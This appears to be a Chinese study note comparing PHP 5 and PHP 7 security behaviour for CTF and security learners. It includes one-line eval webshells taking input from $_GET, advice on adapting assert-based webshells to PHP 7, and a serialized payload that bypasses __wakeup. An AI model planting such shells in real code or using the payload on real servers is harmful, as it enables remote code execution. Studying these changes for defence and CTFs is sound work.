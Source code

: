 # PHP7 和 PHP5 在安全上的区别

## 函数修改

### preg_replace()不再支持/e修饰符


  ```php
<?php
preg_replace("/.*/e",$_GET["h"],"."); 
?>
  ```

### 新的函数preg_replace_callback

```php
<?php
preg_replace_callback("/.*/",function ($a){@eval($a[0]);},$_GET["h"]);
?>
//http://192.168.99.100:32775/test.php?h=phpinfo();
```

### create_function()被废弃

### mysql_*系列全员移除

### unserialize()增加一个可选白名单参数

```PHP
$data = unserialize($serializedObj1 , ["allowed_classes" => true]);
$data2 = unserialize($serializedObj2 , ["allowed_classes" => ["MyClass1", "MyClass2"]]);
```

其实就是一个白名单，如果反序列数据里面的类名不在这个白名单内，就会报错。

### **assert()**默认不在可以执行代码

这就是众多马不能用的罪魁祸首了，太多的马用assert()来执行代码了，这个更新基本就团灭，一般情况下修改成eval即可正常运行了~

提一下，菜刀在实现文件管理器的时候用的恰好也是assert函数，这导致菜刀没办法在PHP7上正常运行。

### dl()函数在PHP-FPM in PHP 7.0.0.中被移除



### `__wakeup` 的修复

PHP 有个 [Bug](https://bugs.php.net/bug.php?id=72663)，触发该漏洞的PHP版本为PHP5小于5.6.25或PHP7小于7.0.10，该漏洞可以简要的概括为：当序列化字符串中表示对象个数的值`大于`真实的属性个数时会跳过 `__wakeup` 函数的执行。

``` 
<?php
class xctf
{    
	public $flag = "111";
    public function __wakeup()    
    {       
    	exit('bad requests');    
    }
} //echo serialize(new xctf());
echo unserialize($_GET['code']);echo "flag{****}";?>
```

使用这个 payload 绕过 `__wakeup` 函数

```
# O:4:"xctf":1:{s:4:"flag";s:3:"111";}
http://www.example.com/index.php?code=O:4:"xctf":2:{s:4:"flag";s:3:"111";}
```

## 语法修改

### foreach不再改变

php7之前

### ![](http://ww1.sinaimg.cn/large/006pWR9agy1g58lyd4jvyj30ap07rglv.jpg)

![](http://ww1.sinaimg.cn/large/006pWR9agy1g58lwktshnj30ka02074b.jpg)

php7

![](http://ww1.sinaimg.cn/large/006pWR9agy1g58lzusjr2j30kw020mx7.jpg)

因为数组最后一个元素的 $value 引用在 foreach 循环之后仍会保留，在第二个循环的时候实际上是对之前的指针不断的赋值。php7中通过值遍历时，操作的值为数组的副本，不在对后续操作进行影响

### 8进制字符容错率降低

在php5版本，如果一个八进制字符如果含有无效数字，该无效数字将被静默删节。

```php
<?php
echo octdec( '012999999999999' ) .'\n';
echo octdec( '012' ) . '\n';
if (octdec( '012999999999999' )==octdec( '012' )){
        echo "octdec(octdec( '012999999999999' ))==octdec('012')";
}
?>
```

![](http://ww1.sinaimg.cn/large/006pWR9agy1g58m6yec3gj30fe00yglm.jpg)

但是在php7里面会触发一个解析错误。

这个问题同样在PHP7.0.0以后的版本又被改回去了，只影响这一个版本。

### 十六进制字符串不再被认为是数字

### 移除了 ASP 和 script PHP 标签

![](http://ww1.sinaimg.cn/large/006pWR9aly1g58m9xr2ldj30j604q0so.jpg)

只能使用`<?php ?>`、`<?= ?>`。
此外`<? ?>`需要看是否开启短标签。

### 超大浮点数类型转换截断

将浮点数转换为整数的时候，如果浮点数值太大，导致无法以整数表达的情况下， 在PHP5的版本中，转换会直接将整数截断，并不会引发错误。 在PHP7中，会报错。

### 杂项

`exec(), system() passthru()`函数对 NULL 增加了保护.

`list()`不再能解开字符串`string`变量

`$HTTP_RAW_POST_DATA` 被移除

`__autoload()` 方法被废弃

`parse_str()` 不加第二个参数会直接把字符串导入当前的符号表，如果加了就会转换称一个数组。现在是第二个参数是强行选项了。

统一不同平台下的整型长度

`session_start()` 可以加入一个数组覆盖php.ini的配置
